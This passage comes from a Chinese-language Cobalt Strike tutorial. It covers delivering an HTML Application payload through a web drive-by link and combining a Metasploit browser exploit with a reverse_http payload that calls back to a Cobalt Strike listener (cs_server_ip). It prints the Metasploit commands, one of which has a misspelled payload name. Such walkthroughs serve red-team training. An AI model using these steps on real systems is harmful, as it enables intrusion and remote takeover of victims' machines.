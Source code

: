 首先来到`Attacks --> Packages --> HTML Application`创建一个HTML应用，如果没有创建监听的话，还需要创建一个监听。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs8-3.png)

HTML应用文件生成好后，来到`Attacks --> Web Drive-by --> Host File`，选择刚才生成的文件，最后点击Launch，复制CS创建的链接，在目标主机上打开此链接。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs8-4.png)

当在目标主机上提示是否运行时，点击运行。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs8-5.png)

当该文件在目标上运行后，CS客户端上就可以看到回连的会话了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs8-6.png)

### MSF 与 CS 的结合利用

如果想使用MSF对目标进行漏洞利用，再通过这个漏洞来传输Beacon的话，也是可以的。

1、首先在MSF上选择攻击模块

2、接着在MSF上设置Payload为`windows/meterpreter/reverse_http`或者`windows/meterpreter/reverse_https`，这么做是因为CS的Beacon与MSF的分阶段协议是相兼容的。

3、之后在MSF中设置Payload的LHOST、LPORT为CS中Beacon的监听器IP及端口。

4、然后设置 `DisablePayloadHandler` 为 True，此选项会让 MSF 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉MSF说我们已经建立了监听器，不必再新建监听器了。

5、再设置 `PrependMigrate` 为 True，此选项让 MSF 前置 shellcode 在另一个进程中运行 payload stager。如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

6、最后运行`exploit -j`，-j 是指作为job开始运行，即在后台运行。

**操作**

在CS中新建一个HTTP Beacon，创建过程不再赘述。

1、在MSF中选择攻击模块，根据教程这里选择的`adobe_flash_hacking_team_uaf`模块，不过个人感觉现在这个模块已经不太能被利用成功了。

```
use exploit/multi/browser/adobe_flash_hacking_team_uaf
```

2、接着配置payload，这里选择revese_http payload

```
set payload windows/meterpreter/revese_http
set LHOST cs_server_ip
set LPORT 80
```

3、之后，配置`DisablePayloadHandler`、`PrependMigrate`为 True

```
set DisablePayloadHandler True
set PrependMigrate True
```

